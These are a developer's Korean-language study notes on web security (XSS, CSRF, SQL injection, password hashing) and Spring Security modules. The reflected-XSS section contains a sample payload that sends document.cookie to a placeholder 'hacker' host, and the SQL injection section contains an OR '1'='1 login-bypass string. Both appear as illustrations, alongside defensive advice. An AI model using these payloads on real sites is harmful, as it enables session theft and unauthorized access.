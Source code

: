 ### 2021-11-17

## 웹 보안
- **[크로스 사이트 스크립팅: XSS]**
    - *참고 1: https://namu.wiki/w/XSS*
    - *참고 2: https://noirstar.tistory.com/266*
    - *참고 3: https://www.youtube.com/watch?v=bSGqBoZd8WM*
    - 개요
        - 악의적인 사용자가 공격하려는 사이트에 스크립트를 넣는 기법
        - 공격에 성공시, 접속한 사용자는 삽입된 코드를 실행하며, 보통 의도치 않은 행동 수행 OR 쿠키/세션/토큰 탈취 당함
        - 주로 JS를 통한 공격
    - Stored XSS
        - 사이트 게시판이나 댓글, 닉네임 등 스크립트가 "서버"에 저장
        - 악성 스크립트가 있는 게시글 등을 열람한 사용자들은 악성스크립트 동작시키게 됨
        - 주로 게시판에서 XSS 공격 많이 발생
    - Reflected XSS
        - URL 파라미터에 스크립트 넣어 실행
        - 이건 보통 브라우저에서 걸러!
        - http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>
            - 해커의 웹페이지로 쿠키값을 전송해줌
    - 방지법
        1. innerHTML 사용하지 마세요!
            - textContent, innerText 활용하기
            - 태그가 그냥 텍스트로 들어감
        2. Vue.js 사용시, v-html 디렉티브에 사용자 제공 컨텐츠 절대 넣지마!!!
        3. 쿠키에 HttpOnly 옵션을 사용하자!
            - XSS로 쿠키 탈취 X
            - 근데 로컬 스토리지에 토큰 있으면 탈취 가능함
        4. XSS 특수 문자를 치환하기
            - Spring에서는 오픈소스 Luxy XSS Servlet Filter 사용하자
            - `@RequestBody` 에서는 이걸 막지 못함
                - 참고: https://jojoldu.tistory.com/470

- **[크로스 사이트 요청 참조 : CSRF]**
    - *참고 1: https://namu.wiki/w/CSRF*
    - *참고 2: https://itstory.tk/entry/CSRF-%EA%B3%B5%EA%B2%A9%EC%9D%B4%EB%9E%80-%EA%B7%B8%EB%A6%AC%EA%B3%A0-CSRF-%EB%B0%A9%EC%96%B4-%EB%B0%A9%EB%B2%95*
    - *참고 3: https://www.youtube.com/watch?v=atNmPzdvPD4*
    - 개요
        - 사용자가 본인의 의지와 무관하게 공격자가 의도한 행동을 하게 함
            - 수정/삭제 등의 Action
        - 사용자 패스워드 변경 페이지 및 타 시스템 로그인 연동과 같은 인증 취약점 찾아서 공격
        - 공격이 이루어지기 위해서는...
            - 위조 요청 전송하는 서비스에 희생자가 로그인인 상태
            - 희생자가 해커가 만든 피싱 사이트에 접속
    - 방지법
        1. Referer 체크
            - 요청된 페이지의 정보인 Referer 체크
            - 다른 페이지에서 보낸 요청인지 검증
            - 즉 내가 메일을 보내서 사용자한테 
                - http://nolto.kro.kr/feeds/change 이런거 보내봤자 우리는 Referer check로 짜름
                - 프론트/백이 분리되는게 보안적인 이점도 크네!
        2. CSRF 토큰
            - 폼 전송, 편집 시도 등을 할 때 사용자별로 CSRF 토큰이라는 이용자별 고유한 값을 만듦
            - 요게 일치해야 수정/삭제가 가능하다~

- **[SQL Injection]**
    - *참고 1: https://namu.wiki/w/SQL%20injection*
    - *참고 2: https://noirstar.tistory.com/264*
    - 개요
        - 클라이언트의 입력값 조작하여 서버의 데이터베이스 공격
        - 로그인 할 때 요런감성 `SELECT user FROM user_table WHERE id='admin' AND password=' ' OR '1' = '1';`
    - 방지법
        - 입력값에 대한 검증
        - PreparedStatement 구문 사용
            - 사용자 입력값이 DB 파라미터로 들어가기전에 DBMS가 컴파일하여 실행하지 않고 대기
            - 단순 문자열로 바꿔버린다!
        - 불필요한 Error Message 노출 멈춰!

- **[비밀번호 암호화]**
    - *참고: https://st-lab.tistory.com/100*
    - HASH + SALT 로 암호화하자!
        - SALT: 해시 함수 돌리기 전에 원문에 임의의 숫자 더하는 것 

## Spring Security?
- *참고: https://mangkyu.tistory.com/76*
- *참고: https://spring.io/projects/spring-security*
- **개요**
    - Spring 기반의 어플리케이션의 보안 (인증/인가) 담당하는 스프링 하위 프레임워크
    - 강력하고 커스텀이 용이한 접근 제어 프레임워크
        - 인증/인가 등의 기능 쉽게 구현가능
    - Dispatcher 전, Filter 레벨에서 처리
    - 확장이 쉬움!

- **기능**
    - 인증/인가 서포트
    - CSRF, Session Fixation, ClickJacking 등에 대한 웹 보안
    - Servlet API 통합
    - Spring MVC와의 통합

- **모듈**
    - SecurityContextHolder
        - 보안 주체의 세부 정보를 포함하여 저장
        - 응용 프로그램의 현재 보안 컨텍스트에 대한 세부 정보 저장
        - SecurityContextHolder를 통해 SecurityContext에 접근 가능
    - SecurityContext
        - Authentication 보관
        - SecurityContext를 통해 Authentication 객체 꺼내올 수 있음
    - Authentication
        - 현재 접근하는 주체의 정보와 권한을 담는 인터페이스
    - UserPasswordAuthenticationToken
    - AuthenticationProvider
        - 실제 인증에 대한 부분 처리
        - 인증이 완료된 객체 반환

